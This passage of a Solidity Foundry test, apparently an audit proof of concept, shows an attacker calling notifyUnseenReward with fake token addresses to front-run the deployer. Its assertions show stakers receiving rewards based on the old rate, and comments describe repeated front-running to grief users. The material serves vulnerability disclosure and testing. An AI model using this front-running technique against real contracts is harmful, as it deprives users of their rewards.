 ```solidity
                fakeTokens[i] = vm.addr(i + 60);
            }

            address attacker = vm.addr(50);
            vm.prank(attacker);
            lock.notifyUnseenReward(fakeTokens);
        } else {
            vm.prank(deployer);
            lock.notifyUnseenReward(rewardTokens);
        }

        // now while that transaction is getting delayed ,
        // someone exit their position before or on time
        // and the reward they received is based on the previous multiplier and not the one
        // determined according to new rewards

        // asset statements ensure rewards are same

        if (attackermode) {
            // enabling attacker mode means the rewards will stay same and new transfer of rewards tokens will not be accounted
            // when calculating the rewards

            vm.prank(user1);
            lock.getAllRewards();
            assertEq(_rewardToken.balanceOf(user1), 100e18);
            vm.prank(user2);
            lock.getAllRewards();
            assertEq(_rewardToken.balanceOf(user2), 200e18);
            vm.prank(user3);
            lock.getAllRewards();
            assertEq(_rewardToken.balanceOf(user3), 300e18);
        }
        else{
            // If attacker did not delay our transaction indefinitely , the rewards accrued would have been doubled

            vm.prank(user1);
            lock.getAllRewards();
            assertEq(_rewardToken.balanceOf(user1), 200e18);
            vm.prank(user2);
            lock.getAllRewards();
            assertEq(_rewardToken.balanceOf(user2), 400e18);
            vm.prank(user3);
            lock.getAllRewards();
            assertEq(_rewardToken.balanceOf(user3), 600e18);
        }


        // If rewards are same , test passes
        // it means users will not receive the rewards based on the new rewards rate i.e 1200 rewards tokens instead their rewards are based on 600 tokens

        // The attacker has to keep front-running the transaction of notify to grief other users

    }
```
